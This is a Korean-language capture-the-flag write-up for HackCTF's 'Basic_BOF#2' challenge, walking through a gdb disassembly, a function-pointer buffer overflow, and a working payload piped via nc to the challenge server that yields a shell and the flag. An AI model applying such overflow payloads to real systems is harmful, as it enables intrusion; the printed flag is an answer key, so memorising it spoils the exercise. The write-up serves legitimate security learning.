 # Basic_BOF\#2

---

`main()`의 코드는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x080484cd <+0>:	lea    ecx,[esp+0x4]
   0x080484d1 <+4>:	and    esp,0xfffffff0
   0x080484d4 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080484d7 <+10>:	push   ebp
   0x080484d8 <+11>:	mov    ebp,esp
   0x080484da <+13>:	push   ecx
   0x080484db <+14>:	sub    esp,0x94
   0x080484e1 <+20>:	mov    DWORD PTR [ebp-0xc],0x80484b4
   0x080484e8 <+27>:	mov    eax,ds:0x804a040
   0x080484ed <+32>:	sub    esp,0x4
   0x080484f0 <+35>:	push   eax
   0x080484f1 <+36>:	push   0x85
   0x080484f6 <+41>:	lea    eax,[ebp-0x8c]
   0x080484fc <+47>:	push   eax
   0x080484fd <+48>:	call   0x8048350 <fgets@plt>
   0x08048502 <+53>:	add    esp,0x10
   0x08048505 <+56>:	mov    eax,DWORD PTR [ebp-0xc]
   0x08048508 <+59>:	call   eax
   0x0804850a <+61>:	mov    eax,0x0
   0x0804850f <+66>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048512 <+69>:	leave  
   0x08048513 <+70>:	lea    esp,[ecx-0x4]
   0x08048516 <+73>:	ret    
End of assembler dump.
```

기초적인 bufferoverflow문제이다. 해당 코드를 보면 stdin으로 0x85만큼을 **ebp-0x8c**에 받는다. 그리고 **ebp-0xc**에 있는 주소를 call한다. 입력할 수 있는 byte수는 0x85이고, 입력받는 공간과 **ebp-0xc**와의 주소 차이는 0x80이기 때문에 `system()`의 주소를 가져와 **"/bin/sh"**를 인자로 넘기는 방법은 불가능하다.

때문에 ida를 통해서 함수를 살펴보니 다음과 같은 `shell()`함수가 있었다.

```c
    int shell()
    {
      return system("/bin/dash");
    }
```

이 함수 `shell()`의 주소는 다음과 같다.

    gdb-peda$ p shell
    $2 = {<text variable, no debug info>} 0x804849b <shell>

때문에 {[dummy 0x80byte]+`shell()`의 주소}와 같이 payload를 짜면 된다.

```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/2.Basic_BOF#2$ (python -c "print 'A'*0x80+'\x9b\x84\x04\x08'";cat) | nc ctf.j0n9hyun.xyz 3001
    ls
    flag
    main
    cat flag
    HackCTF{h3y_dud3_600d_f0r_y0u}
```
**flag: HackCTF{h3y_dud3_600d_f0r_y0u}**
